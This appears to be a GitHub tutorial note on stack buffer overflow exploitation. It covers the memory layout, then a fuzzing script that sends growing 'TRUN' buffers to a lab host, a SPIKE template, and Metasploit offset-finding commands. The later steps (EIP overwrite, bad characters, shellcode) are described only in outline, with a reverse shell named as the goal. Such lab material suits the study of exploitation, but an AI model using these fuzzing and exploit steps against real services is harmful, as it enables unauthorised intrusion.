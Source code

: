# Buffer Overflow
## Anatomy of memory:
5 Stages:
 - Kernel
 - Stack
 - Heap
 - Data
 - Text
		
---
## Anatomy of the stack:
4 Stages:
   - ESP (Extended Stack Pointer)
   - Buffer Space
   - EBP (Extended Base Pointer)
   - EIP (Extended Instruction Pointer) / Return Address

When you enter characters, its stored in the buffer space.
In a bufferoverflow attack, you fill the buffer space, and start to write to the Extended Base Pointer, than to the Extended Intruction Pointer, where things goes interesting.
The EIP is a pointer address, that says where the next instruction will be. We use that to do some malicious activities, like a reverse shell.

---

## Steps to conduct a buffer overflow:

Step 1: Spiking (stats.spk, trun.spk)
        A method to find a vulnerable part of the program (generic_send_tcp)
stats.spk
~~~bash
s_readline();
s_string("STATS ");
s_string_variable("0");
~~~

Step 2: Fuzzing (1.py)
We send a bunch of characters to try to break the program

~~~bash
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
    	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.1.6',9999))
 
        s.send('TRUN /.:/' + buffer)
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
    	print "Fuzzing crashed at %s bytes" % str(len(buffer))
        sys.exit()
~~~

Step 3: Finding Offset (2.py)

If we can break it, we wanna find where we broke it, or the offset
~~~bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
~~~
using the pattern, we send it to the program and will check the EIP's value
In current case(386F4337)
~~~bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
"[*] Exact match at offset 2003"
~~~

Step 4: Overwriting EIP (3.py)
        With the offset we found, we try to overwrite the EIP

Step 5: Finding Bad Characters (4.py)
        We than find the bad characters, that can break our shellcode

Step 6: Finding the Right Module (5.py)
        We try to find something for example a dll file, that has no memory protection(no Rebase, no ASLR, no SafeSEN, no NXCompact, no OS D11) (mona modules)

Step 7: Generating Shellcode (6.py)
        We than generate the shellcode that will be use to get access to the machine
		